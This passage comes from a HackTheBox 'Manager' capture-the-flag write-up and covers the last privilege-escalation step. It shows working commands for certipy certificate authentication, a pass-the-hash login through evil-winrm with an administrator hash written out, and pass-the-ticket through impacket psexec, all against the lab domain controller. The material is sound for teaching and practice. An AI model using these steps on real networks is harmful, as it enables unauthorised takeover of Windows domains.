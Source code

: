 Run the command below and quickly execute the second command with `certipy auth`.

```
sudo ntpdate -u manager.htb
```

![ntpdate-clock-sync](/images/HTB-Manager/CLOCK-SYNC.png)

```
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236
```

We get a TGT ticket and the administrator hash. Both can be used to get administrative privileges. You can login with the hash using `evil-winrm` or you can pass the ticket with `impacket`.

![TGT-Ticket-and-admin-hash](/images/HTB-Manager/CA6.png)

### evil-winrm method

```
evil-winrm -i 10.10.11.236 -u administrator -H ae5064c2f62317332c88629e025924ef
```

![admin-shell-evil-WinRM](/images/HTB-Manager/evil-winrm-root.png)

### Pass the ticket method 

> This method is subject to `Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` so you will need to to reuse the `ntpdate` command again before using `impacket`.

To pass the ticket I first need to export it. You can read more about it [here](https://www.thehacker.recipes/a-d/movement/kerberos/pass-the-certificate).

```
export KRB5CCNAME=administrator.ccache
```

Then I login to the DC

```
python3 /usr/share/doc/python3-impacket/examples/psexec.py manager.htb/administrator@dc01 -k -no-pass -dc-ip 10.10.11.236 -target-ip 10.10.11.236
```

And we are in with a privileged account!

![Impacket-privileged-account](/images/HTB-Manager/CA7.png)

### Chained commands method

Chaining the commands might be the solution for you if you are unable to run them fast enough individually. Still you will probably need to try multiple times, just remember to be fast.

```
sudo ntpdate -u manager.htb
```

```
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236 && export KRB5CCNAME=administrator.ccache && python3 /usr/share/doc/python3-impacket/examples/psexec.py manager.htb/administrator@dc01 -k -no-pass -dc-ip 10.10.11.236 -target-ip 10.10.11.236
```
